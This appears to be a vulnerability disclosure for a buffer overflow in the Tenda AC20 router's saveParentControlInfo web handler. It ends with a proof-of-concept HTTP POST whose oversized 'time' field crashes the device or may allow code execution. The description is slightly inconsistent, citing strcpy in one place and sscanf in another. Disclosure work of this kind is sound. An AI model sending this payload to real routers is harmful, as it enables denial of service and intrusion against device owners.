




## Submitter：林淦(Lingan) 罗熙(Luoxi)

## Submitter unit：广州大学 (Guangzhou University)

## Information


**Vendor of the products:**   Shenzhen Tenda Technology Co.,Ltd.

**Vendor's website:**https://www.tenda.com.cn/

**Affected products:** AC20

**Affected firmware version:** <= V16.03.08.12 (latest)

**Firmware download address:** [tenda.com.cn/material/show/3264](https://www.tenda.com.cn/material/show/3264)

## Overview

A buffer overflow vulnerability was discovered on the latest version of the Tengda AC20 router, V16.03.08.12, where an attacker sent a well-constructed http post packet to the request path /goform/saveParentControlInfo, triggering a denial of service attack or even RCE, specifically via the function strcpy(s + 2, var); triggered, the reason is because there is no boundary check on var

## Vulnerability details

The prerequisite is that the function is called saveParentControlInfo



Here the two fields are valued deviceId, deviceName, and then the function compare_parentcontrol_time is called, and the time is valued in the function compare_parentcontrol_time, but because of sscanf(s, "%[^-]-%s", v3, v4); Not checking results in a buffer overflow vulnerability



## POC

```
POST /goform/saveParentControlInfo HTTP/1.1
Host: 192.168.102.145
Content-Length: 95
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.102.145
Referer: http://192.168.102.145/main.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive

deviceName=123&time=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa-b
```




